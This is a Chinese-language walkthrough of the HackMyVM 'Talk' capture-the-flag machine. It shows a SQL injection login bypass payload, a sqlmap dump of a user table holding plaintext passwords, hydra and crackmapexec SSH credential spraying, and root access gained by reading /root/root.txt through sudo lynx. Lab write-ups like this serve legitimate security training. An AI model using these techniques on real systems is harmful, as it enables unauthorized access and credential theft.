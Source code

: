 # Talk

2024-11-09 https://hackmyvm.eu/machines/machine.php?vm=Talk

## IP

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问首页是个登陆框 http://192.168.5.40/home.php ，尝试是否存在 SQL 注入，发现存在，username 和 passwd 都输入：

```
1' or 1=1 -- -
```

直接使用 sqlmap 跑数据库：

```
available databases [4]:
[*] chat
[*] information_schema
[*] mysql
[*] performance_schema
```

直接获得 chat 中的用户数据表 user：

```
+--------+-----------------+-------------+-----------------+----------+-----------+
| userid | email           | phone       | password        | username | your_name |
+--------+-----------------+-------------+-----------------+----------+-----------+
| 5      | david@david.com | 11          | adrianthebest   | david    | david     |
| 4      | jerry@jerry.com | 111         | thatsmynonapass | jerry    | jerry     |
| 2      | nona@nona.com   | 1111        | myfriendtom     | nona     | nona      |
| 1      | pao@yahoo.com   | 09123123123 | pao             | pao      | PaoPao    |
| 3      | tina@tina.com   | 11111       | davidwhatpass   | tina     | tina      |
+--------+-----------------+-------------+-----------------+----------+-----------+
```

收集 username 和 password 列的值，使用 hydra 或 crackmapexec 进行全集 ssh 碰撞登陆，发现 3 个可以登陆的账户：

```
sudo crackmapexec -t 10 ssh 192.168.5.40 -u user -p passwd --continue-on-success
或
hydra -t 20 -L user -P passwd ssh://192.168.5.40 -V

[22][ssh] host: 192.168.5.40   login: nona   password: thatsmynonapass
[22][ssh] host: 192.168.5.40   login: david   password: davidwhatpass
[22][ssh] host: 192.168.5.40   login: jerry   password: myfriendtom
```

尝试登陆这 3 个账户，只有 nona:thatsmynonapass 中有提权的路径，先读取 user flag：

```
nona@talk:~$ cat user.txt
wordsarelies
```

sudo -l 发现：

```
(ALL : ALL) NOPASSWD: /usr/bin/lynx
```

lynx 是一个字符界面的全功能 www 浏览器, 可以使用 file 协议直接读取 root 目录中的 root flag：

```
sudo /usr/bin/lynx file:///root/root.txt

talktomeroot
```
